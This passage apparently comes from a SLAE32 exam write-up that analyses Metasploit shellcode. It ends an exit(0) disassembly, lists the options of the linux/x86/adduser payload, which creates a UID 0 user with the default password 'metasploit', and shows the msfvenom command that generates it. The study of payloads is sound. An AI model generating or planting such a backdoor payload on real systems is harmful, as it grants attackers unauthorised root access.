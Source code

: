 The final action is the execution of an `exit(0)` function.
```
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
```

## AddUser
The second shellcode I have selected is `linux/x86/adduser`. 

First of all, we need to understand which parameters this shellcode needs:
```
┌──(kali㉿kali)-[~/SLAE32-Exam/5.2-AddUser]
└─$ msfvenom -p linux/x86/adduser -a x86 --platform linux --list-options  
Options for payload/linux/x86/adduser:
=========================


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create

Description:
  Create a new user with UID 0
```


We are good to go with the default options, therefore the shellcode generation is done with the following command:
```
┌──(kali㉿kali)-[~/SLAE32-Exam/5.2-AddUser]
└─$ msfvenom -p linux/x86/adduser -a x86 --platform linux -f c -o adduser.txt
No encoder specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
Saved as: adduser.txt
```
